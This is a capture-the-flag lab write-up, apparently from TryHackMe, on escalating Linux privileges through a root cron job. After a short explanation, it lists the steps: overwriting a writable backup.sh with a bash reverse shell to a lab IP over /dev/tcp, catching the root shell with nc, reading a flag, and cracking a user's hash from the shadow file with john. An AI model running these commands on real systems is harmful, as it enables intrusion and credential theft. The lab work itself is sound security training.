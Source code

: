 Cron jobs are used to run scripts or binaries at specific times. By default, they run with the privilege of their owners and not the current user. While properly configured cron jobs are not inherently vulnerable, they can provide a privilege escalation vector under some conditions.  
The idea is quite simple; if there is a scheduled task that runs with root privileges and we can change the script that will be run, then our script will run with root privileges.  
  
Cron job configurations are stored as crontabs (cron tables) to see the next time and date the task will run.  
  
Each user on the system have their crontab file and can run specific tasks whether they are logged in or not. As you can expect, our goal will be to find a cron job set by root and have it run our script, ideally a shell.
```
# Login to the remote server using provided credentials.
# Run below command to look for cronjobs and found out that basckup.sh script was configured to run every minute.
cat /etc/crontab

# We modified the backup.sh as follows to receive reverse shell on our system with root privilegs.
cat backup.sh
#!/bin/bash

bash -i >& /dev/tcp/10.201.22.135/5555 0>&1

# Then start listener on system and we receive reverse shell as root
nc -lvnp 5555
Listening on 0.0.0.0 5555
Connection received on 10.201.111.104 54582
bash: cannot set terminal process group (12985): Inappropriate ioctl for device
bash: no job control in this shell
root@ip-10-201-111-104:~# whoami
whoami
root

# Then we simply search for flag using find command
find / -name flag*

# Executed flag.
cat /home/ubuntu/flag5.txt
cat /home/ubuntu/flag5.txt
THM-383000283

# To find out password of user matt, we execute shadow file and cracked the hashed password using hashes.com. We can crack the password using john by simply copying the hash to file and run it using below command.
john hash
matt - 123456
```